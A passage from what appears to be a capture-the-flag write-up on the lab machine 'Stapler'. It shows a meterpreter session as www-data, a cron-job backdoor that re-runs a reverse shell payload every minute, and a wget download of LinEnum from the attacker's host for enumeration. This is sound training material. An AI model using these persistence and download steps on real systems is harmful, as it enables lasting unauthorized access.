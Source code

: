 ```
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
```

We now have a meterpreter session open on stapler with the privileges of `www-data`.

Meterpeter has several built in post-exploitation modules but one of the best features is that you can accidentally press CTRL+C and *not* kill your shell. As you can see it will simply drop you back to your meterpreter session rather than killing it outright.

We'll set up the stealthiest persistence mechanism ever and create a cron job as www-data that executes my reverse shell payload every minute... forever.

`echo "* * * * * /tmp/shell.elf" > /dev/shm/staging/backdoor-cron`

`crontab backdoor-cron`

Now if I kill my shell for some reason I just need to wait one minute and I'll get it back.

```
[*] Shutting down Meterpreter...

[*] 10.1.1.129 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.1.1.128:9002 
[*] Sending stage (180291 bytes) to 10.1.1.129
[*] Meterpreter session 2 opened (10.1.1.128:9002 -> 10.1.1.129:56948) at 2019-11-10 14:54:01 +1100

meterpreter > 
```

# [](#header-2)Host Enumeration

Using the same `python -m SimpleHTTPServer` trick as before, we'll push a copy of [LinEnum](https://github.com/rebootuser/LinEnum) to the target and execute it.

```
meterpreter > shell
Process 4254 created.
Channel 1 created.
cd /dev/shm/staging
wget http://10.1.1.128:8000/LinEnum.sh
--2019-11-10 13:57:55--  http://10.1.1.128:8000/LinEnum.sh
Connecting to 10.1.1.128:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46108 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

     0K .......... .......... .......... .......... .....     100% 22.9M=0.002s

2019-11-10 13:57:55 (22.9 MB/s) - ‘LinEnum.sh’ saved [46108/46108]
ls
backdoor-cron
LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -r linenum-stapler -e /dev/shm/staging/
```

